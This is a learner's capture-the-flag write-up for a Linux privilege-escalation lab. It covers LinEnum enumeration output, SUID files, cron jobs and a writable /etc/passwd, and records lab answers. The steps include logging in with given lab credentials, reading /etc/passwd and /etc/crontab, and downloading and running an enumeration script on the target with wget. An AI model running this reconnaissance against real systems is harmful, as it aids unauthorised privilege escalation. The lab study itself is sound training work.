 Kernel- Kernel information is shown here. There is most likely a kernel exploit available for this machine.

Can we read/write sensitive files: The world-writable files are shown below. These are the files that any authenticated user can read and write to. By looking at the permissions of these sensitive files, we can see where there is misconfiguration that allows users who shouldn't usually be able to, to be able to write to sensitive files.

SUID Files- The output for SUID files is shown here. There are a few interesting items that we will definitely look into as a way to escalate privileges. SUID (Set owner User ID up on execution) is a special type of file permissions given to a file. It allows the file to run with permissions of whoever the owner is. If this is root, it runs with root permissions. It can allow us to escalate privileges. 

Crontab Contents- The scheduled cron jobs are shown below. Cron is used to schedule commands at a specific time. These scheduled commands or tasks are known as “cron jobs”. Related to this is the crontab command which creates a crontab file containing commands and instructions for the cron daemon to execute. There is certainly enough information to warrant attempting to exploit Cronjobs here.

There's also a lot of other useful information contained in this scan. Lets have a read!
'''

1. First, lets SSH into the target machine, using the credentials user3:password. This is to simulate getting a foothold on the system as a normal privilege user.
	No answer needed

2. What is the target's hostname?
	Our prompt thing is root@polobox, so
	polobox

3. Look at the output of /etc/passwd how many "user[x]" are there on the system?
	cat /etc/passwd
	Among other users, there is user[1-8], 
	8

4. How many available shells are there on the system?
	cat /etc/shells
	4

5. What is the name of the bash script that is set to run every 5 minutes by cron? 
	cat /etc/crontab
	autoscript.sh

6. What critical file has had its permissions changed to allow some users to write to it?
	I'm guessing this is what the LinEnum is for, so on my local machine in the folder with LinEnum.sh in it (This folder), I execute the code 
	python -m SimpleHTTPServer 8000
	   then on the target machine, I say 
	wget [tun0 IP]:8000/LinEnum.sh

	chmod +x LinEnum.sh
	./LinEnum.sh
	
	Actually this was useless and I needed the hint, it was /etc/passwd

	/etc/passwd
